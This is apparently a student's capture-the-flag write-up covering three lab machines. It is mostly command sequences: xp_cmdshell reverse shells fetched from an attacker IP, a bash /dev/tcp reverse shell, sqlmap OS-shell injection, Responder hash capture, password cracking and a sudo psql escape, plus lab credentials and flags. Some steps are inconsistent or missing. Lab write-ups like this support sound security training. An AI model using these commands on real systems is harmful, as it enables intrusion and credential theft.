









## Task 1

### 🛠️The process of solving task1

1. Use nmap to scan the target machine:
   
   ```bash
   nmap -p- -sC -sV 10.129.10.155
   ```

   After scanning the machine ,  we found open ports: SMB (445) and MS-SQL (1433).

2. We connect to SMB share using know credentials:
   
   ```bash
   smbclient //10.129.10.155/backups -U 'ARCHETYPE/sql_svc'
   ```
   And it log in successfully and listed all the files.

3. We download and read the config file by using command 'GET' and 'CAT'

    ```bash
   get prod.dtsConfig
   cat prod.dtsConfig
   ```

   After download the file and check the file, i fould MS-SQL login credentials: sql_svc : M3g4c0rp123.

4. Log in to the MS-SQL server using impacket:

    ```bash
    # python 3 : use python 3 to run the progess
    # impacket-env/bin/mssqlclient.py: use to connect the Microsoft SQL server
    # -windows-auth : to log in SQL server by using Windows
    # ARCHETYPE/sql_svc:M3g4c0rp123: sql_sve is the account , M3g4c0rp123 is the password
    # @10.129.10.155: the IP address
    
   python3 impacket-env/bin/mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.10.155
   ```

5. Enable command execution via xp_cmdshell

   ```bash
   # access to advancedd configuration options in SQL server
   EXEC sp_configure 'show advanced options', 1;

   #applies the change we just made
   RECONFIGURE;

   #enables the xp_cmdshell feature, let run Windows system commands
   EXEC sp_configure 'xp_cmdshell', 1;

   #applies the new setting
   RECONFIGURE;
   ```

   We do this is to command the execution from the database, after running the command we will have a way to control the operating system.

6. Create two different terminal: We put payload in terminal 1 , and put netcat in terminal 2.

   For terminal 1:
   
   ```bash
   # -m : run Python's built-in HTTP server module, which will turns the current directory into a web server that servers files over HTTP
   sudo python3 -m http.server 80
   ```

   For terminal 2:

   ```bash
   # nc: Netcat to read form and writing to network connection
   # -l: listen mode
   # -v: Verbose, to show detailed output
   # -n : Don't resolve DNS , avoid delays by skipping hostname lookup
   # -p 443: port 443 (use for HTTPS)
   sudo nc -lvnp 443
    

7.  Download and execute reverse shell payload from the target:
    
    ```bash
    # xp_cmdshell: SQL server feature that lets you run the system command from SQL.
    # powershell -c Invoke-WebRequest: run PowerShe;; to download a file from a URL
    # -Uri http://10.10.14.60/nc64.exe: attacker IP
    # -OutFile: Save the downloaded file to the target machine.
    xp_cmdshell "powershell -c Invoke-WebRequest -Uri http://10.10.14.60/nc64.exe -OutFile    C:\\Users\\sql_svc\\Downloads\\nc64.exe"

    # -e cmd.exe : Tells Netcat to spawn a command prompt and send its I/O through the connection
    # 10.10.14.60.443: attacker IP

    xp_cmdshell "C:\\Users\\sql_svc\\Downloads\\nc64.exe -e cmd.exe 10.10.14.60 443"
    ```

8. Receive reverse shell and read the user flag:

    ```bash
   cd C:\Users\sql_svc\Desktop
   type user.txt
   ```

   In this part we can get the user flag: 3e7b102e78218e935bf3f4951fec21a3

   


9. Now, we need to get the root flag:

   Use WinPEAS to enumerate for privillege escalation:

    ```bash
    
   Invoke-WebRequest -Uri http://10.10.14.60/winPEASx64.exe -OutFile winPEASx64.exe .\winPEASx64.exe
    
   ```

   It shows the PowerShell history path.

10. Read PowerShell history to extract admin credentials.
    
    ```bash
    type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```

      We got the password,
   
      ```bash
      
      $secpasswd = ConvertTo-SecureString 'MEGACORP_4dm1n!!' -AsPlainText -Force
      
      ```
   
11.  Login as Administrator

        We use impacket pasexec.py:

        ```bash
     
        python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.129.10.155
        
        ```

     or use the Evil-WinRm:

       ```bash
       
       evil-winrm -i 10.129.10.155 -u Administrator -p 'MEGACORP_4dm1n!!'
       
       ```

       After this, we can read the root flag:

       ```bash
    
       cd C:\Users\Administrator\Desktop
       type root.txt
        
       ```
    
       get the root flag: b91ccec3305e98240082d4474b848528.

      

## Task 2

### 🛠️The process of solving task2

### What is Burp?

This is a intercepting proxy tool that allow security testers to capture, inspect, modify and forward HTTP(S) request and responses between browser and the serber.

We download the Burp Suite and open the app by the command:

 ```bash

java -jar burpsuite_community_v2024.1.1.jar

 ```

1. First, I tried to open the main page at http://10.129.95.191 (target machine:    10.129.95.191), but it returned a blank or inaccessible page.

   To discover any hidden or unlisted directories on the server, I used Gobuster with a common wordlist:
   
   ```bash
   gobuster dir -u http://10.129.95.191 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

   After using the buster, i found a hidden path:

   ```bash
   /cdn-cgi/login/
    ```
2. Therefore, i tried the login page by using http://10.129.95.191/cdn-cgi/login/.

   Can get into the page successfully.

   
   
   When i click the log in as guest , the url changed into http://10.129.95.191/cdn-cgi/login/admin.php.

   The page exist but only can access as the guest.
   

    

4. We use 'curl - I' to check admin page:

   ```bash

   curl -I http://10.129.95.191/cdn-cgi/login/admin.php

   ```

   get the result:

   ```bash

   HTTP/1.1 200 OK
   Date: Thu, 03 Jul 2025 12:16:00 GMT
   Server: Apache/2.4.29 (Ubuntu)
   Content-Type: text/html; charset=UTF-8

   ```

   This means that the page exist and work normal.
   
5. When we click the log in as guest, Burp Suite to intercept this request.

   Inside the HTTP history tab, i discovered the request :

    ```bash

    /cdn-cgi/login/admin.php

    ```

6. We can find the user flag from admin.php page:

   

7. Now we need to get Root Flag:

   Look for the potential vulerablities, we use Burp Suite Responder to intercept the login request.

   ```bash

   http://10.129.95.191/index.php?page=//10.10.14.6/somefile

    ```

   
8.  Use John the Ripper to solve NTLMv2 Hash:

    We copy and paste the hash from the responder into hash.txt and use rockyou to solve the hash.

   ```bash
   john --format=netntlmv2 --wordlist=~/rockyou.txt hash.txt

   ```

9. Login using Evil-WinRm and get the root flag:

   


## Task 3

### 🛠️Process of solving task 3

1. Use nmap to scan the target machine(10.129.159.234):
   
   ```bash
   
   nmap -Pn -sC -sV --min-rate 1000 -T4 -oN fast_scan.txt 10.129.159.234

   ```

   After scanning the port , i found that it shows three different, SSH(22), HTTP(80) and FTP(21).

   FTP is used to transfer files and runs on TCP port 21.

2. I typed ftp command to login:

   ```bash

   ftp -4 10.129.159.234 -v -a
   ```
   
    

    We login in anonymously and used ls to list files and found backup.zip
   
   
3.  Use 'GET' command to download the backup.zip and type 'BYE' to exit the ftp enviornment.

    ```bash
    # download the backup file
    get backup.zip

    #exits the ftp enviornment
    bye
    ```
    
4.  We found that attmpting to unzip shows it is password-protected

    We need to crack the ZIP password , therefore, we can user john-the-ripper

    We generate the has using zip2john

    ```bash

    /snap/john-the-ripper/695/bin/zip2john backup.zip > backup.hash

    ```

    crack password with John the Ripper:

     ```bash

     john --format=pkzip --wordlist=rockyou.txt backup.hash

      ```

     

    
     We found the password: 741852963
    

6. We found the unzip password so we use the password to unzip the file and analyze index.php

   ```bash

   #unzip the zip file
   unzip -P 741852963 backup.zip

   #look at the index.php
   cat index.php
   
   ```

   From the index.php , we can see:

   ```bash

   if ($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")

   ```
   
7. We need to use Hashcat to crack MD5 hash, we use Hashcat it is password-cracking tool designed to crack hashed passwords.

   ```bash
   
   hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --force

   ```

   Hash: 2cb42f8734ea607eefed3b70af13bbd3

   password: qwerty789

8. Now we open the website by using http://10.129.159.234/

   We need to type the login username and password for this website.

    

   By the steps we know that the Username: admin , and password: qwerty789
   
   And we log in successfully.

   

   
9. The url of this website is http://10.129.159.234/dashboard.php?search=Elixir

    If search = xxx which means that the search function is directly using the input in a backend SQL query , so we need to use SQL injection.

   
10. Get the valid cookie using Burp Suite: PHPSESSID=u9hq979p09io4hvqv95ruaorfj
   
   
11. We use SQL map for OS Command injection:

    initial SQLMap test:

    ```bash

    # level 5: the maximum level of the test is level 5
    #risk 3 : set the risk
    #--random-agent : use a random user-agent string
    
    sqlmap -u "http://10.129.159.234/dashboard.php?search=test" \
--cookie="PHPSESSID=u9hq979p09io4hvqv95ruaorfj" \
--level=5 --risk=3 --random-agent --batch

   ```

   Use the OS shell inhection with SQL map:

   ```bash

   sqlmap -u "http://10.129.159.234/dashboard.php?search=test" \
--cookie="PHPSESSID=u9hq979p09io4hvqv95ruaorfj" \
--os-shell \
--level=5 --risk=3 --batch --random-agent

    ```

12. We open another terminal to listen onlocal machine:

    ```bash

    sudo nc -lvnp 443

    ```

13. From SQLMap shell , run reverse shell payload:

   ```bash

    # 10.10.14.252 is our target machine
    # 443 is our linstener port
    bash -c "bash -i >& /dev/tcp/10.10.14.252/443 0>&1"

    ```
    

14. reverse shell successfully received:

   ```bash

   sudo nc -lvnp 4444

    ```

    Response:

   ```bash

   Connection received on 10.129.159.234
   bash: no job control in this shell
   postgres@vaccine:~$

   ```

   This means that it connect successfully. Now we got the shell of the target machine.

   
15. Use cd and ls home and it shows two files: One is 'postgres' and theother one is 'vaccine'.

    I tried to cd/home/vaccine and type ls to find any files inside.

    And found the user.txt inside the vaccine files, i use 'CAT' to read the user flag.

     

16. Now we got the user flag, we need to think how to get root flag.

    We need to check what this user can do with sudo:

    ```bash
    sudo -l
    ```

    Response:
    
    ```bash
    User postgres may run the following commands on vaccine:
    (ALL) NOPASSWD: /usr/bin/psql
    ```

    This means the postgres can run as root without the password

17. Escape to shell via psql

    We run psql as root , this is to break out of psql and get the root shell

    ```bash
    sudo /usr/bin/psql
    ```

   Response:
   
   ```bash
   \! /bin/bash
   ```

   This means that psql let me run shell command and since i;m running psql with sudo , this give me the root shell.

18.  Therefore, similar to getting user flag:

     ```bash
     cd /root
     ls
     cat root.txt
     ```

     We get the root flag.
      
